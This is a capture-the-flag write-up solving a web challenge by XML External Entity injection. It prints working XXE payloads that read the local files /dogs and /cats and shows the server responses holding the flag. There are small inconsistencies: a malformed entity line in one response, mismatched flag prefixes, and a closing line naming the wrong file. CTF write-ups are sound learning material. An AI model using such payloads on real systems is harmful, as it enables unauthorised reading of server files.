

# Challenge 15 (External E) Solve

* Category - Web
* Difficulty - Hard



---

 * This challenge as the name suggests with "External E" is probably pointing to another OWASP Top Ten (2017)
   * [XML Eternal External Entities (XXE)](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
 * So we have a payload that submits XML, so its obvious here we can modify this payload
 * So since XML has so many features with loading DTDs, we can just make up a vague doctype allowing it to be populated
with the data of the host machine.
 * The description hints at the file being at either `/dogs` or `/cats`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///dogs" >]>
<pets>
    <dogs>
        <dog>
            <name>&xxe;</name>
            <type>Spanish Water Dog</type>
        </dog>
        <dog>
            <name>Kirby</name>
            <type>Bichipoo</type>
        </dog>
    </dogs>
</pets>
```
 * So above you can see the addition of a `DOCTYPE` to create an entity under the `xxe` variable
 * That variable is populated via the ENTITY flag of the contents of the system's `/dogs` file.
   * The contents of this file have to be valid XML, otherwise it won't render and thus crash
 * That contents is then injected into the variable placeholder we have (`xxe`)

So what was returned was:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe test "file:///dogs">
]>
<pets>
    <dogs>
        <dog>
            <name>DATO{yoUVE_BEEN_BAMBOOZLED_TRY_CATS}</name>
            <type>Spanish Water Dog</type>
        </dog>
        <dog>
            <name>Kirby</name>
            <type>Bichipoo</type>
        </dog>
    </dogs>
</pets>
```

 * So its clear we should have done `/cats`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///cats">
]>
<pets>
    <dogs>
        <dog>
            <name>TOAD{xX3-15-c0mpL373-yAy}</name>
            <type>Spanish Water Dog</type>
        </dog>
        <dog>
            <name>Kirby</name>
            <type>Bichipoo</type>
        </dog>
    </dogs>
</pets>
```

 * Sure enough, using `/dogs` led to the extracted flag.
---
* You are left with the flag - `TOAD{xX3-15-c0mpL373-yAy}`.